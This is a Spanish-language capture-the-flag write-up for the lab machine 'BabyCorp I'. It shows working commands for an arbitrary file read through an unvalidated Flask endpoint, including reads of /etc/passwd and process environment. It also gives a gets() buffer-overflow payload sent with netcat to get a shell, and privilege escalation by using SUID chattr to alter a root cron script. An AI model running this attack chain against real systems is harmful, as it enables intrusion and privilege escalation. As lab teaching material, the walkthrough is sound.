


## Table of contents

## Enumeración

La máquina BabyCorp I tiene la ip **10.0.2.88**

### Descubrimiento de Puertos

Vamos a empezar enumerando todos los puertos abiertos de la máquina, así como los servicios y las versiones que se están ejecutando en ellos mediante la herramienta **nmap**.

```bash
nmap -sS -p- --open -sCV --min-rate 5000 -n -Pn 10.0.2.88

Host is up (0.00020s latency).
Not shown: 65530 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 9.2p1 Debian 2+deb12u9 (protocol 2.0)
| ssh-hostkey: 
|   256 af:79:a1:39:80:45:fb:b7:cb:86:fd:8b:62:69:4a:64 (ECDSA)
|_  256 6d:d4:9d:ac:0b:f0:a1:88:66:b4:ff:f6:42:bb:f2:e5 (ED25519)
3000/tcp open  http        Golang net/http server
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: max-age=0, private, must-revalidate, no-transform
|     Content-Type: text/html; charset=utf-8
|     Set-Cookie: i_like_gitea=807fce74f38ccb59; Path=/; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|_http-title: Gitea: BabyCorp
3306/tcp open  mysql       MariaDB 10.3.23 or earlier (unauthorized)
5000/tcp open  http        Werkzeug httpd 3.1.8 (Python 3.11.2)
|_http-server-header: Werkzeug/3.1.8 Python/3.11.2
|_http-title: BabyCorp \xE2\x80\x94 Cuidado y desarrollo para tu beb\xC3\xA9
9000/tcp open  cslistener?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|_    This is almost exactly the same as jump...
```
 
### Puerto 3000 (Web)

Accedemos con el navegador al puerto 3000 de la máquina y nos encontramos con un gitea. Consultamos el apartado de "Explore" para ver los repositorios disponibles.



Encontramos un repositorios **wvverez/BabyCorp-Web-Project**, al acceder a él vemos archivos referentes a una app de python. 



Revisando el **app.py** vemos que se trata de la aplicación que se está ejecutando en el puerto 5000. Además, encontramos un endpoint `/api/load-file` que abre un archivo especificado por el usuario en modo de lectura y muestra su contenido.

```python
@app.route('/api/load-file', methods=['POST'])
def load_file():
    filename = request.form.get('file', '')
    if not filename:
        return jsonify({"success": False, "error": "No se especificó archivo"}), 400

    try:
        with open(filename, 'r') as f:
            content = f.read()
        return jsonify({"success": True, "content": content})
    except FileNotFoundError:
        return jsonify({"success": False, "error": "Archivo no encontrado"}), 404
    except Exception as e:
        return jsonify({"success": False, "error": str(e)}), 500
```

Dicho endpoint no aplica ninguna validación al string recibido, por lo tanto, podemos tratar de leer archivos del servidor.

## Explotación
### Arbitrary File Read

Enviamos una petición al endpoint apuntando al `/etc/passwd` y obtenemos como respuesta un json que contiene el contenido del archivo en base64, así que repetimos dicha petición pero decodificando el contenido.

```bash
curl -s "http://10.0.2.88:5000/api/load-file" -X POST \
-H "Content-type: application/x-www-form-urlencoded" \
-d 'file=/etc/passwd' | jq '.content' | tr -d '"' | base64 -d

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
babydev:x:1000:1000:babydev,,,:/home/babydev:/bin/bash
softwaredepartment:x:1001:1001:softwaredepartment,,,:/home/softwaredepartment:/bin/bash
git:x:102:110:Git Version Control,,,:/home/git:/bin/bash
mysql:x:103:111:MySQL Server,,,:/nonexistent:/bin/false
dev_wvverez:x:1002:1002:dev_wvverez,,,:/home/dev_wvverez:/bin/bash
Debian-exim:x:104:112::/var/spool/exim4:/usr/sbin/nologin
```

Podemos leer archivos internos. Si leemos el `/proc/self/environ`, el cual nos muestra información sobre el proceso que se está ejecutando, vemos que el usuario **root** es quien ejecuta esta app.

```bash
curl -s "http://10.0.2.88:5000/api/load-file" -X POST \
-H "Content-type: application/x-www-form-urlencoded" \
-d 'file=/proc/self/environ' | jq '.content' | tr -d '"' | base64 -d

LANG=es_ES.UTF-8PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOME=/rootLOGNAME=rootUSER=rootSHELL=/bin/bashINVOCATION_ID=ed173c0457a24846aef38433cc0ccb5aSYSTEMD_EXEC_PID=468
```

Por lo tanto, podremos leer las **flags** tanto de **user** como de **root**.

Pero nosotros vamos a acceder al servidor, por lo que continuamos con la enumeración de archivos internos.

### Buffer OverFlow (BoF)

Listamos los servicios del servidor apuntando a `/etc/services` y obtenemos dos resultados interesantes.

```bash
curl -s "http://10.0.2.88:5000/api/load-file" -X POST \
-H "Content-type: application/x-www-form-urlencoded" \
-d 'file=/etc/services' | jq '.content' | tr -d '"' | base64 -d

xinetd  9098/tcp
pegasus 9000/tcp
```

- **Xinetd** es un servicio de Linux que permite gestionar las conexiones de red y configurar los servicios que se ejecutan en los puertos.

- **Pegasus** es el servicio que se ejecuta en el puerto 9000.

**Xinetd** configura sus servicios en el directorio **/etc/xinetd.d/**, por lo que probamos si el servicio de **pegasus** está configurado en este directorio.

```bash
curl -s "http://10.0.2.88:5000/api/load-file" -X POST \
-H "Content-type: application/x-www-form-urlencoded" \
-d 'file=/etc/xinetd.d/pegasus' | jq '.content' | tr -d '"' | base64 -d

service pegasus
{
    disable         = no
    socket_type     = stream
    protocol        = tcp
    wait            = no
    user            = babydev
    server          = /usr/local/bin/pegasus
    port            = 9000
    type            = UNLISTED
    log_on_failure  = HOST
}
```

Tenemos la ruta del binario **pegasus**. Lo descargamos para analizarlo en nuestro equipo.

```bash
curl -s "http://10.0.2.88:5000/api/load-file" -X POST \
-H "Content-type: application/x-www-form-urlencoded" \
-d 'file=/usr/local/bin/pegasus' | jq '.content' | tr -d '"' | base64 -d > pegasus
```

Se trata de un ejecutable de Linux, aplicamos reversering con ghidra para ver su código. Obtenemos el **main** y las funciones **vuln** y **win**.

```c
int main(int argc,char **argv){
  char **argv_local;
  int argc_local;
  vuln();
  return 0;
}
```

```c
void vuln(void){
  char buf [64];
  setbuf(stdout,(char *)0x0);
  puts("This is almost exactly the same as jump...");
  gets(buf);
  return;
}
```

```c
void win(void){
  execve("/bin/sh",(char **)0x0,(char **)0x0);
  return;
}
``` 

En el main vemos que se invoca a la función **vuln**, que utiliza gets() para leer el input del usuario sin comprobar su longitud y lo guarda en un buffer de 64 bytes, lo que permite provocar un **Buffer OverFlow** si se introducen más datos de los que caben en el buffer. Además, tenemos otra función **win** que nos lanza una shell.

Para aprovechar esta vulnerabilidad, realizaremos un **Buffer Overflow** para sobrescribir la dirección de retorno de la función **vuln** y redirigir la ejecución a la dirección de memoria de **win**, consiguiendo así su ejecución.

Primero, vamos a revisar las protecciones activas del binario empleando **checksec**.

```bash
checksec --file=pegasus

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   40 Symbols        No    0               1               pegasus
```

La opción **No PIE** indica que el binario siempre se ejecuta en una dirección de memoria fija, así que vamos a obtener la dirección de memoria de la función **win** utilizando **gdb**.

```bash
gdb -q pegasus

Reading symbols from pegasus...
(gdb) print win
$1 = {void (void)} 0x401196 <win>
```

Obtenemos la dirección de memoria **0x401196**

Para poder construir el payload, necesitamos estructurar los datos correctamente de forma que sobrescriban la pila (**stack**):
- 64 bytes para rellenar el buffer y alcanzar el límite de memoria.
- 8 bytes para sobrescribir el **Register Base Pointer** (**RBP**) y poder apuntar a la dirección de memoria objetivo.
- 8 bytes para sobrescribir el **Return Instruction Pointer** (**RIP**) con la dirección de la función **win**.

Con esto, el payload queda así: 

'Payload = [64 Bytes Buffer] + [8 Bytes RBP] + [8 Bytes RIP (win)]'

Enviamos el payload mediante **netcat** al puerto 9000 de la ip de la máquina.

```bash
(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*72 + struct.pack("<Q", 0x401196) + b"\n")';cat) | nc -nv 10.0.2.88 9000

(UNKNOWN) [10.0.2.88] 9000 (?) open
This is almost exactly the same as jump...

id
uid=1000(babydev) gid=1000(babydev) groups=1000(babydev)
```

**Nota**: El cat del final nos permite mantener abierta la bash; si no se incluye, se cerraría inmediatamente.

Entramos como el usuario **babydev**, para trabajar más cómodos nos enviamos una reverse shell a nuestro equipo.

## Escalada de Privilegios
### Root

Vamos a utilizar pspy64 para ver las tareas que se ejecutan periódicamente en el servidor.

- https://github.com/dominicbreuker/pspy

```bash
babydev@TheHackersLabs:/$ /tmp/pspy64

20XX/XX/XX XX:XX:XX CMD: UID=0     PID=2341   | /bin/sh -c /opt/backup_json.sh 

```

El usuario root está ejecutando un script de bash situado en el directorio **opt**. Dicho script posee permisos 777, por lo que lo podemos modificar para que el usuario root le otorgue permisos SUID a la bash.

Pero si tratamos de escribir en él nos reporta un error de permisos.

```bash
babydev@TheHackersLabs:/$ echo '' > /opt/backup_json.sh 
bash: /opt/backup_json.sh: Operation not permitted
```

Listando los archivos con permisos **SUID** encontramos **/usr/bin/lsattr** y **/usr/bin/chattr**.

Con **lsattr** podemos ver los atributos especiales de los archivo y directorios, mientras que con **chattr** podemos modificarlos.

Empleamos **lsattr** sobre el script y comprobamos que tiene el atributo de **inmutabilidad** (**i**) que impide modificarlo incluso como usuario root. Por lo tanto, usamos **chattr** para quitar ese atributo y poder modificar el script.

```bash
babydev@TheHackersLabs:/$ /usr/bin/lsattr /opt/backup_json.sh 
----i---------e------- /opt/backup_json.sh
babydev@TheHackersLabs:/$ /usr/bin/chattr -i /opt/backup_json.sh 
babydev@TheHackersLabs:/$ /usr/bin/lsattr /opt/backup_json.sh 
--------------e------- /opt/backup_json.sh
```
 
Ahora, modificamos el script para que root le de permisos **SUID** a la **bash**, esperamos a que se ejecute el script y nos lanzamos una bash privilegiada.

```bash
babydev@TheHackersLabs:/$ echo 'chmod u+s /bin/bash' > /opt/backup_json.sh 
babydev@TheHackersLabs:/$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 Sep  7  2025 /bin/bash
babydev@TheHackersLabs:/$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# ls -la /root
total 48
drwx------  5 root root 4096 Sep  6 02:41 .
drwxr-xr-x 18 root root 4096 Apr 30 20:20 ..
lrwxrwxrwx  1 root root    9 Sep  4 14:52 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Sep  4 15:02 .cache
-rw-------  1 root root   20 Sep  5 17:11 .lesshst
drwxr-xr-x  3 root root 4096 Oct 16  2024 .local
-rw-------  1 root root 2119 Sep  5 16:38 .mysql_history
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root   66 Sep  5 20:36 .selected_editor
drwx------  2 root root 4096 Oct 16  2024 .ssh
-rw-r--r--  1 root root  165 Sep  5 20:49 .wget-hsts
-rw-r--r--  1 root root   64 Sep  6 02:41 root.txt
```